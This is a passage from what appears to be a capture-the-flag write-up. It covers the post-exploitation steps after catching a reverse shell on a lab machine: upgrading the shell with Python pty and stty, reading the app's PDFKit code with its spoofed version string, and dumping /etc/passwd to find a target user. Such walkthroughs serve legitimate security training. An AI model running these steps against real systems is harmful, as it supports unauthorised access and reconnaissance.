 And we catch a shell. As we specified `/bin/sh` that’s what we get. Let’s try and upgrade so that we get all the nice things like not deleting our shell when we `ctrl+c`

Here we go. Inside our reverse shell:

```jsx
python3 -c 'import pty; pty.spawn("/bin/bash")'
[CTRL]+Z
stty raw -echo;fg
```

After we `ctrl+z` we will end up back in our local session because we’ve backgrounded netcat. The final line sets up to pass through all input to our reverse shell and then foreground netcat again.

For a quick side trip we can have a look at the app code used to generate PDFs. An interesting note is that rather than update the version of PDFKit used the author here changes the reported version. This means that if you look at the PDF metadata you will see a reported version of PDFKit that isn’t vulnerable.

```jsx
begin
           PDFKit.new(url).to_file(path)
          cmd = `exiftool -overwrite_original -all= -creator="Generated by pdfkit v0.8.6" -xmptoolkit= #{path}`
          send_file path, :disposition => 'attachment'
      rescue
```

We continue onwards.

We do some quick enumeration of the passwd file and there is another user on the box `henry` that likely holds our user flag.

```jsx
ruby@precious:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
henry:x:1000:1000:henry,,,:/home/henry:/bin/bash
systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin
ruby:x:1001:1001::/home/ruby:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false
```
